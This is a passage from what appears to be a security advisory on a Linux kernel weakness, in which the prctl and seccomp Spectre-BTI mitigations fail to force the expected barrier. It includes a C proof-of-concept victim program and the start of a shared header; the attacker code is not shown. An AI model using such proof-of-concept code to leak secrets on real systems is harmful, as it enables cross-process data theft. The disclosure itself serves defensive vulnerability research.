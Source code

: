 }
```
The seccomp syscall also uses ```ib_prctl_set``` [[2](https://elixir.bootlin.com/linux/v5.15.56/source/arch/x86/kernel/cpu/bugs.c#L1467)] as mitigation, inside
```arch_seccomp_spec_mitigate ``` [[4]([https://elixir.bootlin.com/linux/v5.15.56/source/arch/x86/kernel/cpu/bugs.c#L1467])] so the same result is expected with seccomp.

### Severity
Low - Severity justification currently being reworked.

### Proof of Concept
To ensure this wasn't a measurement error, we created a simple POC. The victim code always executes a```safe_function``` through a function pointer that is vulnerable to a spectre-BTI attack. The victim requests the kernel for protection using the prctl syscall (inside ```protect_me```). The victim also loads a secret from a text file, showing that other syscalls don’t check the TIF bit or provoke a reschedule that would force an IBPB.

```
//gcc -o victim victim.c -O0 -masm=intel -no-pie -fno-stack-protector
#include "common.h"

int main(int argc, char *argv[])
{

    setvbuf(stdout, NULL, _IONBF, 0);
    printf("running victim %s\n", argv[1]);

    //only call safe_function
    codePtr = safe_function;
    char secret[20];
    char *sharedmem = open_shared_mem();
    unsigned idx = string_to_unsigned(argv[1]);

    //call for prctl to protect this process
    protect_me();

    //only then load the secret into memory
    load_secret(secret);

    for (int i = 0; i < 100; i++)
    {
        flush((char *)&codePtr);
        //this arguments are never used on safe_function, but they match the signature of spectre_gadget, that should never be called
        //Since prctl is called, it shouldn't be possible for an attacker to poison the BTB and leak the secret
        spec(&sharedmem[2000], secret, idx);
    }
}

```
Most of the libc functions were placed inside a common header between the attacker and the victim, so the ```spectre_gadget``` and ```spec``` functions share the same memory addresses on both victim and attacker (otherwise a .GOT entry is created and the addresses are changed). This is not a requirement and there are other ways to place the branches on the same addresses and mimic the victim context, but this method is the simplest.

```
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/prctl.h>
